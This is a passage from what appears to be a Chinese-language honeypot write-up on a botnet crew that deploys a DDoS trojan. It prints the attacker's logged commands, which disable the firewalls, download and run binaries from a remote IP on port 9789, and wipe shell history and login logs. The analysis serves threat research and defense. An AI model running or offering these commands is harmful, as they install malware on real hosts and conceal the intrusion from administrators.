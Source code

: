 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t010b32515b9c85dffd.png)

经过解密后我们得到了返回地址。

[![](https://p2.ssl.qhimg.com/t01c24b927bcd0f92c0.png)](https://p2.ssl.qhimg.com/t01c24b927bcd0f92c0.png)

## 4 转

从上面的分析来看，这可能是一个抓鸡的小黑产，用的也是主流的ddos木马。

但是当我们翻开蜜罐日志发现，事情远不止那么简单。

就在他放完木马运行并断开连接的三分钟后，黑产再次通过爆破的方式进入到了系统中。

```
/etc/init.d/iptables stop

service iptables stop

SuSEfirewall2 stop

reSuSEfirewall2 stop

chattr -i /usr/bin/wget

chmod 755 /usr/bin/wget

yum install -y wget

pkill sysxlv

rm -f /etc/sysxlv

wget -c -P /etc/ http://111.73.45.73:9789/sysxlj

wget -c -P /etc/ http://111.73.45.73:9789/config.json

chmod 755 /etc/sysxlj

nohup /etc/sysxlj &gt; /dev/null 2&gt;&amp;1 &amp;

wget -c  -P /etc/ http://111.73.45.73:9789/jourxlv

chmod 755 /etc/jourxlv

nohup /etc/jourxlv &gt; /dev/null 2&gt;&amp;1 &amp;

export HISTFILE=/dev/null

rm -f /var/log/wtmp

history –c

exit
```
